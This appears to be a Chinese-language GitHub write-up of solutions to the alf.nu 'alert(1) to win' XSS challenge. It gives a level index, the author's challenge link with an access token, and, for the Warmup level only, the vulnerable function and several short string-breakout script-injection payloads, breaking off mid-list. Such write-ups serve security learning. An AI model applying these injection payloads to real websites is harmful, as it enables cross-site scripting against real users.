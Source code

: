 # alert(1) to win payloads

挑战地址：https://alf.nu/alert1

### 我还能更短！
### 所使用的浏览器 Opera 56.0.3051.43 和 Firefox 52.6.0
### 推荐使用Firefox，部分payload无法在Opera中执行
### 我的链接
    https://alf.nu/alert(1)#accesstoken=NoNIWDnsKLzlDa2hkyRw

### 目录
> - [x]  <a href="#a001">Warmup (12)</a>
> - [x]  <a href="#a002">Adobe (14)</a>
> - [x]  <a href="#a003">JSON (27)</a>
> - [x]  <a href="#a004">JavaScript (15)</a>
> - [x]  <a href="#a005">Markdown (31)</a>
> - [x]  <a href="#a006">DOM (32)</a>
> - [x]  <a href="#a007">Callback (14)</a>
> - [x]  <a href="#a008">Skandia (52)</a>
> - [x]  <a href="#a009">Template (24)</a>
> - [x]  <a href="#a010">JSON 2 (35)</a>
> - [x]  <a href="#a011">Callback 2 (16)</a>
> - [x]  <a href="#a012">Skandia 2 (99)</a>
> - [x]  <a href="#a013">iframe</a>
> - [x]  <a href="#a014">TI(S)M (25)</a>
> - [x]  <a href="#a015">JSON 3 (29)</a>
> - [x]  <a href="#a016">Skandia 3 (137)</a>
> - [x]  <a href="#a017">RFC4627 (101)</a>
> - [x]  <a href="#a018">Well (85)</a>
> - [x]  <a href="#a019">No (36)</a>
> - [x]  <a href="#a020">K'Z'K (60)</a>
> - [x]  <a href="#a021">K'Z'K (84)</a>
> - [x]  <a href="#a022">K'Z'K (189)</a>
> - [x]  <a href="#a023">Fruit (23)</a>
> - [x]  <a href="#a024">Fruit 2 (23)</a>
> - [ ]  <a href="#a025">Fruit 3</a>
> - [ ]  <a href="#a026">Capitals</a>
> - [ ]  <a href="#a027">Quine</a>
> - [x]  <a href="#a028">Entities (13)</a>
> - [ ]  <a href="#a029">Entities 2</a>

<a id="a001"></a>
### Warmup (12)
```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```
热身题，对参数`s`没有任何校验，直接上payload吧
```html
");alert(1);("
```
或者
```html
");alert(1);//
```
最短的话，12个字符
```html
");alert(1-"
```
或者